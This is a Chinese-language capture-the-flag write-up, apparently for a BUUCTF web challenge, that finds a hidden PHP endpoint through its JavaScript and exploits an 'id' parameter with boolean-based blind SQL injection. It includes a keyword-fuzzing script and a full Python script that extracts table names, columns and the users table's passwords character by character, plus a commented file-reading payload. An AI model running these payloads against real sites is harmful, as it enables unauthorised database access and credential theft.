 # 知识点
布尔盲注<br />js路径查找
# 思路
进入题目查看源码，发现首页是一个静态图片，引用了许多js<br />![image.png](./images/20231018_0009565754.png)<br />我们通过JSfinder这个工具去查找相关的接口<br />找到一个php接口SUPERAPI.php，访问查看一下<br />![image.png](./images/20231018_0009577614.png)<br />查看源码可以看到前端对get传入的'id'参数进行了严格过滤<br />![image.png](./images/20231018_0009584636.png)<br />输入1或者2试了一下，会返回admin和flag<br />![image.png](./images/20231018_0009595868.png)<br />![image.png](./images/20231018_0010004678.png)<br />猜测这里是一个sql注入点，前端进行了过滤其实可以忽略，主要是后端的过滤<br />我们通过这样的payload进行fuzz测试，无过滤时返回admin，过滤时为空
```bash
?id=1 and 'if'='if'--+
```
```bash
f = open("sqlFuzz字典.txt", 'r')
strs = f.readlines()
print("---------  过滤字符")
for i in strs:
    if "'" in i:
        payload = f'1 and "{i}"="{i}"--+'
    else:
        payload = f"1 and '{i}'='{i}'--+"
    time.sleep(0.1)
    r = requests.get(url=url+payload).text
    if 'admin' not in r:
        print("---------  "+i)
```
![image.png](./images/20231018_0010006031.png)<br />sleep，union过滤了，所以我们使用布尔盲注
```bash
import requests
import time
url = 'http://0dc42f8d-33c6-4e7e-97e5-3da1cfb6ef80.node4.buuoj.cn:81/SUPPERAPI.php?id='
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆数据库
        # payload1 = {
        #     'username': f"' or if(ascii(substr(()))",
        #     'password': f"123"
        # }
        # 爆表名
        # payload = f"1 and ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))<{j} --+"

        # 爆列
        # payload = f"1 and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),{i},1))<{j} --+"

        # # 爆值
        payload = f"1 and ascii(substr((select group_concat(password) from users),{i},1))<{j} --+"

        # payload = {'username':f"if(load_file('/var/www/html/api/index.php')regexp('{flag+j}'),0,1)",
        #            'password':0}
        r = requests.get(url=url+payload).text
        time.sleep(0.1)
        if(r'admin' in r):
            max = j
        else:
            min = j
```
获取flag<br />![image.png](./images/20231018_0010026193.png)
